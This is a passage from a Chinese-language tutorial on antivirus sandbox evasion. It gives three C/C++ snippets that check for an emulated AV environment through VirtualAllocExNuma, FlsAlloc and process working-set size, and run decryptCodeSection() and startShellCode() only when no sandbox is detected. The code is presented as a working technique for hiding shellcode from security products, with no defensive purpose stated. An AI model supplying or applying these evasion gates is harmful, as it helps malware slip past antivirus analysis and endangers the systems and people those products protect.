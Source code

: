 NUMA代表Non Uniform Memory Access（非一致内存访问）。它是一个在多系统中配置内存管理的方法。它链接到在 Kernel32.dll 中声明的一整套函数

更多信息：https://docs.microsoft.com/zh-cn/windows/win32/procthread/numa-support?redirectedfrom=MSDN

下面的代码在物理环境中有效，av环境中失效

```c
int main(void)
{
    LPVOID mem = NULL;
    mem = VirtualAllocExNuma(GetCurrentProcess(), NULL, 1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
    if (mem != NULL)
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```



### 例子2：What the fuck are FLS?

FLS是Fiber Local Storage(纤程本地存储），被用来操纵与纤程相关的数据。纤程是一整套运行在线程里的可执行组件。参考这里：https://docs.microsoft.com/zh-cn/windows/win32/procthread/fibers?redirectedfrom=MSDN

在一些av环境中，对于FlsAlloc函数总是返回FLS_OUT_OF_INDEXES

```c
int main(void)
{
    DWORD result = FlsAlloc(NULL);
    if (result != FLS_OUT_OF_INDEXES)
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```



## The “Checking the environment” method

如果AV依赖于一个沙盒/仿真环境，一般其环境与真实的环境是不一样的。有大量的方法做这种检查。下面描述了其中两种方法：



### 例子1：检查进程内存

使用Sysinternals工具，当一个AV扫描一个进程的时候，会改变它的内存。AV会为进程开辟内存，仿真的代码进程API也会返回与我们预期不同的值。在这种情况下，我在当前进程使用GetProcessMemoryInfo。如果当前工作设置大于3500000 bytes，我认为这个代码运行在一个AV环境中，如果不是，那么这个代码就解密并运行。

```cpp
#include <Psapi.h>
#pragma comment(lib, "Psapi.lib")
int main()
{
    PROCESS_MEMORY_COUNTERS pmc;
    GetProcessMemoryInfo(GetCurrentProcess(), &pmc, sizeof(pmc));
    if (pmc.WorkingSetSize <= 3500000)
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```